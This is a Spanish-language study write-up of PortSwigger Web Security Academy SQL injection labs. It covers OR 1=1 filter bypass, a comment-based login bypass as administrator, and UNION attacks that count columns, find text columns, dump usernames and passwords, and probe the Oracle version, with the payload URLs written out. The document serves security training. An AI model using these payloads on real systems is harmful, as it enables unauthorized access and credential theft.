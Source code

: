 # SQL injection

## Índice
* [Retrieving hidden data](retrieving-hidden-data)
* [Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](lab1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
* [Subverting application logic](lab1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
* [Lab2: SQL injection vulnerability allowing login bypass](lab2-sql-injection-vulnerability-allowing-login-bypass)
* [UNION attacks]
* [Examining the database]
* [Blind SQL injection]

## Retrieving hidden data

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![sql1.png](sql1.png)

```http
https://ac701fd11eeda548806db59400ab002f.web-security-academy.net/filter?category=Gifts' or 1 = 1 --
```

## Subverting application logic

### Lab2: SQL injection vulnerability allowing login bypass

![sql2.png](sql2.png)

#### 1 forma

username: `administrator' --`

password: `cualquier cosa por que este será interpretado como comentario pero requiere de algun texto para poder ser validado`

#### Otra forma sería:

username: `administrator' or 1 = 1 --` 

password: `'or 1 = 1 --`

## Retrieving data from other database tables(Union attacks)

### Lab3: SQL injection UNION attack, determining the number of columns returned by the query
![sql3.png](sql3.png)

```http
https://ac961fdd1e31962380aa27ed00e300af.web-security-academy.net/filter?category=Accessories' union select null,null,null --
```

### Lab4: SQL injection UNION attack, finding a column containing text

Lo primero es encontrar la cantidad de columnas que tiene la tabla

![sql4.1.png](sql4.1.png)

```http
https://accb1fe71f4b818780eb38b000d600be.web-security-academy.net/filter?category=Accessories' union select null,null ,null --
```

ahora es identificar cual columna permite caracteres

![sql4.2.png](sql4.2.png)

```http
https://ac851f641e0191b48054265b00af0007.web-security-academy.net/filter?category=Accessories' union select null,'p2Omtj',null --
```

### Lab5: SQL injection UNION attack, retrieving data from other tables

Primero igual que los anteriores problemas buscamos la cantidad de columnas

```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=Food+&+Drink' union select null,null --
```

luego buscamos cuales se pueden utilizar caracteres

```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=' union select 'a','a' --
```

ahora si buscamos los usarios y las contraseñas

```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=' union select username, password from users --
```

### Lab6: SQL injection attack, querying the database type and version on Oracle

De nuevo es averiguar el numero de columnas incialmente, pero en este caso el truco es intentar con el uso de una tabla dual que esta por defecto en la base de datos de oracle

```http
https://acee1f761fa9a991805415580007004d.web-security-academy.net/filter?category=Corporate+gifts' union select null,null from dual --
```

ahora para sacar la version de un servidor de Oracle debemos adaptar la consulta `SELECT banner FROM v$version`
